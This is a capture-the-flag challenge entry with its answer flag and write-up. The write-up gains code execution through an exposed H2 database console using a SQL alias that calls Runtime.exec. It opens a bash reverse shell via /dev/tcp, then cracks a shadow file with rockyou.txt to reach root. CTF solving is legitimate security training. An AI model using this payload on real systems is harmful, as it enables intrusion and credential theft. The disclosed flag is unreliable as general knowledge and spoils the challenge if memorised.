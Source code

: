 # Name
Boot It and Root It

# Description
It's the middle of the Spring, and the website is not responding. Nothing works. See if you
can find a way to run some code.

Website Link

# Difficulty
Hard

# Flag
PCTF{Rc3_P0w3R_pR0V3n}

# Hints
None

# Author Name
(Yojan) drMoscovium

# Writeup

`/h2-console`
To open the H2 database console.

```SQL
CREATE ALIAS EXECMD AS $$ String execmd(String cmd) throws java.io.IOException { Runtime.getRuntime().exec(cmd);return null; }$$;

CALL EXECMD('bash -c $@|bash 0 echo bash -i >& /dev/tcp/127.0.0.1/5555 0>&1');
```
Run this command to get a reverse shell
![](../../writeup-images/Boot_Root_Reverse_Shell.png)

There is a shadow file `/home/.someuser/.../shadow`

Copy and paste and then bruteforce it using rockyou.txt

Use the password to login as root

The flag is in the home root folder.

![](../../writeup-images/Boot_Root_Flag.png)
